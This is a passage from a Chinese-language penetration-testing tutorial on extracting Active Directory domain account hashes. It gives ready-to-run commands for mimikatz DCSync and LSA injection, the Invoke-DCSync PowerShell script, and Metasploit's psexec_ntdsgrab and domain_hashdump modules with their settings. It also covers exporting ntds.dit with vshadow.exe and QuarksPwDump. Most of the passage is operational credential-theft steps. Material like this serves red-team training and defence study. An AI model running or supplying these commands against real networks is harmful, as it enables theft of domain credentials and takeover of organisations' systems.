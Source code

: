 当然指定用户也是可以的：

```powershell
lsadump::dcsync /domain:hackme.com /user:Dm
```

当然在域控中直接转储lsass.exe进行Dump也是可以的 ：

```powershell
privilege::debug
lsadump::lsa /inject
```

如果用户太多，无法列举完全的话，可以先执行log命令，这样会在日志中记录操作结果。

#### 使用dcsync获取域账户和域散列值

这个脚本在这：[Invoke-DCSync.ps1 (github.com)](https://gist.github.com/monoxgas/9d238accd969550136db)

命令如下：

```powershell
Invoke-DCSync -PWDumpFormat
```

参数主要用于输出格式化。

### 使用MSF获取域散列值

#### psexec_ntdsgrab模块

该模块位置：`auxiliary/admin/smb/psexec_ntdsgrab`

需要配置的参数：`RHOST`、`SMBDomain`、`SMBUser`、`SMBPass`

#### 基于Meterpreter会话获取

在Meterpreter中使用：

```powershell
run windows/gather/credentials/domain_hashdump
```

或者Meterpreter在Background时：

```powershell
use windows/gather/credentials/domain_hashdump
set session 1
run
```

### 使用vshadow.exe和QuarksPwDump.exe导出域账号和散列值

正常情况下，数据库文件体积较大，不方便保存到本地，如果域控上没有安装杀毒软件，能够直接进入域控，对ntds.dit进行导出的话，就不需要保存到本地了。

QuarksPwDump项目地址：[quarkslab/quarkspwdump: Dump various types of Windows credentials without injecting in any process. (github.com)](https://github.com/quarkslab/quarkspwdump)

vshadow.exe是从[Windows SDK archive - Windows app development (microsoft.com)](https://developer.microsoft.com/en-us/windows/downloads/sdk-archive/)中提取中来的，需要自行提取，或者找网络资源。
